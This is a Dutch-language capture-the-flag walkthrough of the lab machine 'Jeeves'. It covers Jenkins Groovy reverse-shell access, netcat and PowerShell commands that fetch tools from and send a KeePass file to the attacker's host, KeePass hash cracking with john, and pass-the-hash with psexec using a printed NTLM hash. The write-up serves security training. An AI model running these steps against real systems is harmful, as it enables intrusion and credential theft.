

# Jeeves volledige tutorial

### 1 Nmap

<figure><figcaption></figcaption></figure>

1: Ik open een nieuwe terminal 2: ik maak een directory genaamd jeeves waar ik alles in ga uitvoeren. Ik doe dit met mkdir en de vlag -p zodat ik in 1 keer alle tussen directories ook maak. mocht /htb niet bestaan dan wordt die ook aangemaakt. met ; plak ik gelijk een 2e commando er achter namelijk cd dus dan ga ik naar die directory.

```
mkdir -p /root/htb/jeeves;cd /root/htb/jeeves
```

3: Ik voer een volledige nmap scan uit. Ik check alle poorten (65k+ poorten) met -p- en met -A voer ik een groot aantal nmap scans uit waaronder versie detectie, os detectie en standaard scripts. dit doe ik om zoveel mogelijk info te verzamelen. Het stukje -oX en --stylesheet. zorgt ervoor dat ik een mooie output krijg aan het einde.

```
nmap -A -p- 10.10.10.63 -oX nmapout --stylesheet https://raw.githubusercontent.com/honze-net/nmap-bootstrap-xsl/master/nmap-bootstrap.xsl
```

4: Output bekijken door middel van het nmapout bestand te openen met firefox

```
firefox nmapout
```

<figure><figcaption></figcaption></figure>

5: Poort 80 is open dat is een webserver Poort 50000 lijkt ook een webserver

poorten 135 en 445 zijn smb.

### 2 Webservers enumerenen

1: Laten we beginnen met 2 gobuster scans om alle directories te zien van de 2 webservers

Gobuster voor poort 80

```
gobuster dir -u http://10.10.10.63 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,txt,asp,aspx

```

Gobuster voor poort 50000

```
gobuster dir -u http://10.10.10.63:50000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,txt,asp,aspx
```

**Vlaggen uitleg**

Gobuster doet dus directory enumeratie.

* **dir**: De modus om directories te enumereren. Dit vertelt Gobuster dat het op zoek moet gaan naar directories en bestanden op de opgegeven server.
* **-u**: Hiermee geef je de URL van de doelserver op. In dit geval is het `http://10.10.10.63:50000`
* **-w**: Hiermee specificeer je de wordlist die Gobuster moet gebruiken. In dit geval is het pad naar de wordlist `/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`. Deze wordlist bevat een lijst met potentiële directories en bestanden die Gobuster probeert te vinden.
* **-x**: Hiermee kun je bestandsextensies specificeren. In dit geval zoekt Gobuster naar bestanden met de extensies `html`, `txt`, `asp`, en `aspx`. html en txt doe ik altijd standaard. maar asp en aspx is omdat nmap liet zien dat het gaat om een iis windows server.

**Resultaten**

<figure><figcaption></figcaption></figure>

&#x20;Op het 50000 poort vinden we /askjeeves. dit is het enige interessante wat we tussen de 2 hebben gevonden.

### 3 AskJeeves

<figure><figcaption></figcaption></figure>

We zijn beland op een Jeniks pagina zonder login scherm. We zijn gelijk binnen.

**Exploitatie**

Deze Jenkins pagina's kunnen code executen. Zowel windows system command's als groovy script.

Laten we kijken naar een reverseshell via Groovescript.

<figure><figcaption></figcaption></figure>

Laten we drukken op Manage Jenkins en Script console&#x20;

<figure><figcaption></figcaption></figure>

In dit vak plaatsen we onze groovy script revershell die we gaan maken met revshells.com&#x20;

<figure><figcaption></figcaption></figure>

&#x20;1: Voer hier je eigen ipadres in. Dit kan je vinden door

```
ifconfig tun0 | grep 'inet ' | awk '{print $2}'
```

2: voer hier een willekeurige poort 9002 is gewoon goed

3: Kies windows

4: Kies Groovy

5: Kies cmd

6: kopier dit command en plaats dit in een nieuwe terminal. dit is onze listener voor de reverseshell

<figure><figcaption></figcaption></figure>

Kopier het gemaakte script en druk op run

<figure><figcaption></figcaption></figure>

&#x20;We hebben toegang als gebruiker Jenkins

### 4 Priv Esc

<figure><figcaption></figcaption></figure>

&#x20;Zoals gewoonlijk vinden we de userflag op het bureaublad van een gebruiker.

Maar voor de root flag hebben we admin toegang nodig.

<figure><figcaption></figcaption></figure>

Tijdens het doorzoeken van de bestanden van de gebruiker Kohsuke vinden we een .kdbx bestand dat is een KeePass database bestand. Dit kunnen we laden in het programma keepass om info van deze database te bekijken.

laten we dit bestand sturen naar onze kali machine.

**Exfiltratie**

<figure><figcaption></figcaption></figure>

&#x20;1: Laten we beginnen met het downloaden van nc64.exe van github. dit is een statische versie van netcat. Netcat kan ons helpen met bestanden uit de windows machine op onze machine zetten.

```
python3 -m http.server 80
```

2: n de zelfde directory waar ik mijn nc64.exe heb staan start ik een python webserver.

3: Laten we nu nc64.exe op de windows machine zetten met powershell invoke webrequest. Hieronder een goeie link

https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters

```
powershell -c Invoke-WebRequest "http://10.10.14.5/nc64.exe" -OutFile "nc64.exe"
```

4: Nu het bestand sturen naar onze linux machine Op de kali machine

```
nc -lvnp 4444 > CEH.kdbx
```

op de windows machine

```
nc64.exe -vn 10.10.14.5 4444 < CEH.kdbx
```

**Keepbase database wachtwoord kraken**

1: Voor het kraken van het wachtwoord kunnen we keepass2john gebruiken om het wachtwoord wat hier op staan te veranderen naar een hash dat we kunnen kraken met john.

```
keepass2john CEH.kdbx > CEH.kdbx.hash
```

2: Met het volgende commando kraken we de hash met gebruik van rockyou.txt

```
john --wordlist=/usr/share/wordlists/rockyou.txt --format=KeePass CEH.kdbx.hash
```

<figure><figcaption></figcaption></figure>

&#x20;Het wachtwoord blijkt moonshine1 te zijn.

**Database bekijken**

<figure><figcaption></figcaption></figure>

Met het programma kpcli, wat gewoon te instaleren valt via

```
apt install kpcli
```

1: kunnen we met --kdb het database bestand kiezen

```
kpcli --kdb CEH.kdbx
```

2: Met find . kunnen we de entries bekijken

```
find .
```

3: en met show kunnen we individuele entires bekijken

```
show -f 0
```

we zien hier een als output een NTLM hash

in het formaat LM HASH : NT HASH

aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00

***

We hopen dat dit de hash van de admin is. Laten we het eens checken met NetExec. We hadden namelijk ook 2 SMB poorten die open stonden.

***

**Root shell met psexec**

<figure><figcaption></figcaption></figure>

&#x20;We checken onze rechten op smb met gebruik van nxc met de gebruikersnaam Administrator en de hash

```
nxc smb 10.10.10.63 -u "Administrator" -H aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
```

nu we zien dat er pwn3d staat weten we dat we met psexec root kunnen krijgen

```
python3 /usr/local/bin/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 administrator@10.10.10.63 cmd.exe
```

<figure><figcaption></figcaption></figure>

&#x20;we zijn admin

<figure><figcaption></figcaption></figure>

We zien dat de rootflag niet in Desktop staat.

<figure><figcaption></figcaption></figure>

met dir /a kunnen we hidden bestanden laten zien. Maar alsnog vinden we niks.

<figure><figcaption></figcaption></figure>

&#x20;Maar als we dir /r gebruiken voor alternatieve data streams vinden we wel het bestand.

<figure><figcaption></figcaption></figure>

Met more kunnen we de vlag uitlezen
